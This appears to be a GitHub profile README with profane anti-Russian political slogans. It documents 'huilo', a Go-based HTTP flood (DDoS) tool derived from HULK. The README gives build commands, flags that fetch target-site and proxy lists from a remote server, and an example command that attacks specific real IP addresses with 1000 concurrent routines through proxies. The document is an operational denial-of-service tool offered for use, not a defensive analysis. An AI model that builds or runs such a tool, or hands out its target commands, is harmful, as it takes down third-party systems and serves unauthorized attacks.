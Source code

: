 - 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go

For raspberry PI 4 32-bit OS

    GO111MODULE=on CGO_ENABLED=0 GOOS=linux GOARCH=arm GOARM=7 go build  -trimpath -ldflags "-s -w -extldflags '-static'" -installsuffix cgo -tags netgo huilo.go
    
#### Usage
    ./huilo --help
    Usage of huilo:
        -t, --max-routines int          Maximum number of simultaneous connections (default 500)
        -p, --proxies-url proxies-url   URL to fetch proxy list from proxies-url (default "https://hutin-puy.nadom.app/proxy.json")
        -x, --random-proxy              Use random proxy from list
        -c, --recheck duration          Failed Atack refresh interval in seconds (default 1m0s)
        -r, --refresh duration          Screen refresh interval in seconds (default 3s)
        -s, --site site-url             Sites list. Can be used multiple times. Have precedence over sites-url if set site-url
        -u, --sites-url sites-url       URL to fetch sites list from sites-url  (default "https://hutin-puy.nadom.app/sites.json")
              
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo --max-routines 1000 --site http://178.248.237.238 --site http://185.170.2.62 -s https://185.170.2.62 -s http://195.208.109.88 --site https://195.208.109.88 -x -r 5s
